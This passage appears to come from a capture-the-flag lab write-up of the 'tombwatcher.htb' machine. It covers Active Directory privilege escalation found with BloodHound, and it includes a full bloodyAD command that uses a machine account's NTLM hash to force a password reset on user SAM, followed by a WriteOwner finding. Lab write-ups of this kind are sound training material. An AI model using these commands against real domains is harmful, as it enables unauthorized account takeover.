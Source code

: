 ### ForceChangePassword (Privilege Escalation)

BloodHound revealed that the machine account `ANSIBLE_DEVS$` has the ForceChangePassword permission over the user `SAM`.

![Nmap Scan](picture28.png)

Using bloodyAD with the ANSIBLE_DEVS$ account hash, we successfully reset SAM’s password to newP@ssword2022.

```bash
bloodyAD --host 10.10.11.72 -d tombwatcher.htb \
  -u "ansible_dev$" -p ':4f46405647993c7d4e1dc1c25dd6ecf4' \
  set password SAM "newP@ssword2022"

```

![Nmap Scan](picture31.png)

### WriteOwner Edge

BloodHound identified that `Sam` has WriteOwner rights over the `John` user object.

![Nmap Scan](picture32.png)
